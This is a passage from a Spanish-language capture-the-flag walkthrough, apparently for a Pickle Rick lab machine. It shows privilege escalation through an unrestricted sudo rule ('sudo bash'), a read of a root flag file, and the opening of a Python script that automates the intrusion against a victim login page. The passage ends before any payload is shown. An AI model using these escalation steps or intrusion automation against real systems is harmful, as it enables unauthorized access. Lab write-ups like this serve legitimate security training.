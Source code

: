 ```
        ip-10-10-170-234.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Bueno, podemos ejectuar cualquier comando como root, por lo tanto, vamos a convertinos en el:
```
www-data@ip-10-10-170-234:/home$ sudo bash
root@ip-10-10-170-234:/home# whoami
root
```
Listo, nos hemos convertido en root, vamos a buscar el últimos ingrediente:
```
root@ip-10-10-170-234:/home# cat /root/3rd.txt
3rd ingredients: ******
```
Listo, hemos completado la máquina.

Como la máquina ha sido demasiado sencilla, vamos a realizar la automatización de la intrusión, esto lo haremos mediante python como siempre.


El primer paso son las librarías que utilizaremos:

```py
import requests,sys,signal
from pwn import *
```
Luego, definimos los colores, la función para salir del sistema y las variables globales:

```py
Colors = {
    'red': '\033[31m',
    'green': '\033[32m',
    'yellow': '\033[33m',
    'blue': '\033[34m',
    'purple': '\033[35m',
    'cyan': '\033[36m',
    'grey': '\033[37m',
    'reset': '\033[0m'
}

def exiting():
    print(Colors['red']+"\n[!] saliendo...\n"+Colors['reset'])
    sys.exit(1)

if len(sys.argv) < 3:
    print(Colors['yellow'] + f'\n[!] Uso: python3 {sys.argv[0]} "IP"  "Victim_IP"' + Colors['reset'] )
    exiting()

s = requests.Session()
victim = f'http://{sys.argv[2]}/login.php'
victim_portal = f'http://{sys.argv[2]}/portal.php'
```
